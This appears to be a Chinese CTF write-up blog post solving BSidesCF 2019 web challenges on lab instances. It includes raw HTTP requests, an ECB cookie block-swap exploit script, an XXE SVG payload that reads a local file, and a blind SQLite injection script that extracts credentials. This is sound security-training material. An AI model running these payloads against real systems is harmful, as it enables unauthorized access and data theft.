

+++
title = "BSidesCF2019"
slug = "bsidescf2019"
description = "刷"
date = "2024-08-29T09:38:17"
lastmod = "2024-08-29T09:38:17"
image = ""
license = ""
categories = ["复现"]
tags = ["xxe", "sqlite"]
+++

# [BSidesCF 2019]Futurella

查看源代码

# [BSidesCF 2019]Kookie

发现登录不成功

```
Request:

GET /?action=login HTTP/1.1
Host: 38026284-ee1c-468a-a556-b4b1091c3946.node5.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://38026284-ee1c-468a-a556-b4b1091c3946.node5.buuoj.cn:81/?action=login&username=admin&password=admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

这样子发包之后发现需要修改`cookie`

```
Request:

GET /?action=login HTTP/1.1
Host: 101d942e-b8ea-4f4a-ad89-c8fbf61762f9.node5.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: username=admin; domain=101d942e-b8ea-4f4a-ad89-c8fbf61762f9.node5.buuoj.cn; path=/;
Referer: http://101d942e-b8ea-4f4a-ad89-c8fbf61762f9.node5.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

# [BSidesCF 2019]Pick Tac Toe

仔细观察发现是一个下棋游戏，但是每次下去之后人机都会进行拦截，而只有三行我们基本最多平局。查看源代码发现格子的代号是这样的

| 行/列 |  1   |  2   |  3   |
| :---: | :--: | :--: | :--: |
| **1** |  ul  |  u   |  ur  |
| **2** |  l   |  c   |  r   |
| **3** |  bl  |  b   |  br  |

后面经过测试，发现是可以进行改包强行落子的(把他的棋子给覆盖了)

我们现在是这样子



在落子的时候抓包改为

```
Request:

POST /move HTTP/1.1
Host: 218732c2-f773-4c6c-aed8-e827f0d1fb71.node5.buuoj.cn
Content-Length: 6
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://218732c2-f773-4c6c-aed8-e827f0d1fb71.node5.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://218732c2-f773-4c6c-aed8-e827f0d1fb71.node5.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: rack.session=BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRWU5ZWNhNjZjNjY0ODFlZTU2NzA4%0AMTU0MDdiZWJmODE4NGI3YjVlM2RmZDNkOGU4NDY4MzZhMjc0ZjdlNzZjMmYG%0AOwBGSSIKYm9hcmQGOwBGbzoKQm9hcmQGOgtAYm9hcmRbDkkiBiAGOwBUSSIG%0AWAY7AFRAC0ALSSIGWAY7AFRAC0ALSSIGTwY7AFRJIgZPBjsAVA%3D%3D%0A--d95d1e69226e74162270d73c095a005d3354841e
Connection: close

move=b
```

放包即可

# [BSidesCF 2019]Mixer

## ECB加密

> ECB 加密是 16 位一组, 并且每组互相独立, 加密后每组为 32 位。

那么看环境登录抓包之后发现有`cookie`需要构造

```
Response:

HTTP/1.1 302 Moved Temporarily
Server: openresty
Date: Thu, 29 Aug 2024 12:15:04 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 0
Connection: close
Set-Cookie: user=e571b169619b49685a3bdbf2e988b43a2abfdf5808d5b7db17e3c33d9804892bdf0643a7d41f7c2a973beacc50fb96af9524ada1d7015d00fb84d455a172eb11; domain=c2eb5a05-f1f6-487f-b8e5-d31fd581e100.node5.buuoj.cn; path=/; HttpOnly
Set-Cookie: rack.session=BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTkzOWRiNzdlYTVkNGVlNDNhZDI4%0AYWE1ODA3NDkzNTRiY2FhZWFmNTkyNmZmNDdkYWFiNWRhNzA1NDg4NzhmMDUG%0AOwBGSSIMYWVzX2tleQY7AEYiJcAryc%2FjClz5l2s3RCyWIBp5N6egFBwb0Sex%0A2A34k08E%0A--cf46e4b072ce02216bf4b6b0f40315ae257aabe0; path=/; HttpOnly
Location: http://c2eb5a05-f1f6-487f-b8e5-d31fd581e100.node5.buuoj.cn/
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Cache-Control: no-cache
```

修改之后是这样子

```
Request:

GET / HTTP/1.1
Host: c2eb5a05-f1f6-487f-b8e5-d31fd581e100.node5.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=40bdae6198dd52d7c8811ea64da9f2f4f59d599ab04771135f4035f8cb71f640c6741b66b5f4611bf443598a663951f227b941a6dd6afb3996b6f45049473184; rack.session=BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTVkNjBmOTQ4YThmN2MyZjFiMGEw%0AMzc1MjczYzM4YThlNTYyNDdmNWZjNzJjOGEyZTNlNDkxODM2YTE0YjlhNGYG%0AOwBGSSIMYWVzX2tleQY7AEYiJdFRBKiZU0u79ezkHx3myzkPaGwG3OVgYGqR%0AQ1odkoC1%0A--9f6f25984294641a1163c9f61e3d460cfc68a5ec
Connection: close
```

但是并没有`admin`

当我将cookie的部分修改之后形成了乱码

```
Error parsing JSON: 765: unexpected token at '??O?????58b?:?.gdmin ","last_name":"admin","is_admin":0}'
```

那么这里我们知道目的了是覆盖`is_admin`

而正确的一个示例`ECB`应该是这样子

```
第一个块

{"first_name":"A

第二个块
1.00000000000000

第三个块
","last_name":"1

第四个块
231","is_admin":

第五个块
0}
```

那么我们要覆盖`is_admin`,直接拼接值即可

> value=value[0:128]+value[32:64]+value[128:]

这样子第五个块就被成功覆盖并且`is_admin`为1

那么**EXP**

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

url="http://c2eb5a05-f1f6-487f-b8e5-d31fd581e100.node5.buuoj.cn:81/"
action='''?action=login&first_name=A1.00000000000000&last_name=1234'''
r=requests.get(url=url+action,verify=False,allow_redirects=False)
for c in r.cookies:
    print(c.name,c.value)
    if c.name=="user":
        # 换cookie覆盖is_admin为1
        # c.value=c.value[:-32]+c.value[32:64]+c.value[-32:]
        c.value=c.value[0:128]+c.value[32:64]+c.value[128:]

resp=requests.get(url=url,cookies=r.cookies,verify=False,allow_redirects=False)
print(resp.text)
```

# [BSidesCF 2019]SVGMagic

`Convert SVG to PNG with Magic`提示是这个

> SVG 是 Scalable Vector Graphics（可缩放矢量图形）的缩写，它是一种基于 XML（可扩展标记语言）的文件格式，用于描述二维矢量图形。SVG 文件通常用于展示图形、图像和文字

也就是说打`xxe`

这里我们找不到`flag`在哪里,需要理解一个前置知识

> /proc/self/cwd/ 是当前进程的工作目录(也就是当前目录)

创建一个`shell.svg`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

```
Request:

POST /render HTTP/1.1
Host: da79561e-b08f-4921-a3aa-df4c1b95a781.node5.buuoj.cn:81
Content-Length: 384
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://da79561e-b08f-4921-a3aa-df4c1b95a781.node5.buuoj.cn:81
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKycEB0kx2Hz8tfzD
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://da79561e-b08f-4921-a3aa-df4c1b95a781.node5.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryKycEB0kx2Hz8tfzD
Content-Disposition: form-data; name="svgfile"; filename="shell.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
------WebKitFormBoundaryKycEB0kx2Hz8tfzD--
```

成功，但是得到的是一张图片，本来想着是访问路径来查看源码的 ，但是这路径也太长了，于是使用图片识别即可

# [BSidesCF 2019]Sequel

使用`admin/admin`登录发现回包什么都没有

后来`fuzz`一下,发现这样子才可以看包

```
Request:

POST /login HTTP/1.1
Host: e0e9d28d-7d0c-4749-bfc4-931bc1c4056c.node5.buuoj.cn:81
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://e0e9d28d-7d0c-4749-bfc4-931bc1c4056c.node5.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://e0e9d28d-7d0c-4749-bfc4-931bc1c4056c.node5.buuoj.cn:81/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=guest&password=guest
```

```
Response:

HTTP/1.1 302 Found
Server: openresty
Date: Thu, 29 Aug 2024 12:52:58 GMT
Content-Length: 0
Connection: close
Location: /sequels
Set-Cookie: 1337_AUTH=eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9; HttpOnly
Cache-Control: no-cache
```

回包这一段一看就是base64

```
{"username":"guest","password":"guest"}
```

搞出来是这样子,直接发包看看是什么情况

```
Request:

POST /sequels HTTP/1.1
Host: e0e9d28d-7d0c-4749-bfc4-931bc1c4056c.node5.buuoj.cn:81
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://e0e9d28d-7d0c-4749-bfc4-931bc1c4056c.node5.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie:1337_AUTH=eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9;HttpOnly
Referer: http://e0e9d28d-7d0c-4749-bfc4-931bc1c4056c.node5.buuoj.cn:81/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=guest&password=guest
```

看到回显可能是有`sql`注入的，那测试一下

```
{"username":"\" or 1=2 or \"","password":"guest"}   
Invalid user.
{"username":"\" or 1=1 or \"","password":"guest"}
回显正常，那么可以确定是注入了
```

那么写个盲注脚本吧(后来测试发现是(`sqlite`),其实除了查库其他没啥不一样的

```python
import requests
import string
import base64

URL = 'http://b34cc82a-3106-4497-bfd2-b797e4e6a0ae.node5.buuoj.cn:81/sequels'
# 得到所有ascii字符
LETTERS = string.printable

target = ""
data = {'username': 'guest', 'password': 'guest'}

while True:
    f = False
    for e in LETTERS:
        tmp = target + e
        # 1. 获取表名
        payload = r'{{"username":"\" or SUBSTR((SELECT group_concat(name) FROM sqlite_master),{},1)=\"{}\" or \"","password":"guest"}}'.format(len(tmp), e)
        # 2. 获取username字段内容
        # payload = r'{{"username":"\" or SUBSTR((SELECT group_concat(username) FROM userinfo),{},1)=\"{}\" or \"","password":"guest"}}'.format(len(tmp), e)
        # 3. 获取password字段内容
        # payload = r'{{"username":"\" or SUBSTR((SELECT group_concat(password) FROM userinfo),{},1)=\"{}\" or \"","password":"guest"}}'.format(len(tmp), e)

        # Encode payload to bytes and then to base64
        payload_bytes = payload.encode('utf-8')  # 将字符串编码为字节
        payload_base64 = base64.b64encode(payload_bytes).decode('utf-8')  # Base64 编码并解码为字符串
        
        #创建数据包
        req = requests.Request(
            'POST',
            URL,
            data=data,
            params={},
            cookies={
                "1337_AUTH": payload_base64  # 使用 Base64 编码后的字符串
            }
        )

        # 进行数据包初始化并发包
        prepared = req.prepare()
        s = requests.Session()
        r = s.send(prepared, allow_redirects=False)
        if "Movie" in r.text:
            target = tmp
            print(target)
            f = True
            break
    if f:
        continue
    else:
        exit()

```

其实这里你会发现这里有一种不同平常的发包模式，也可以看我注释

与`requests.post`相比它的优点是

- 更大的灵活性和控制力
- 可以多次重用并且不会断开(状态保持)
- 更便利

非常`good`,而且这次并没有使用`ascii`码因为我觉得直接挨个字符串比较可能更顺一点

最后得到注入结果

```
sequeladmin/f5ec3af19f0d3679e7d5a148f4ac323d
```

在`/sequels`

登录即可
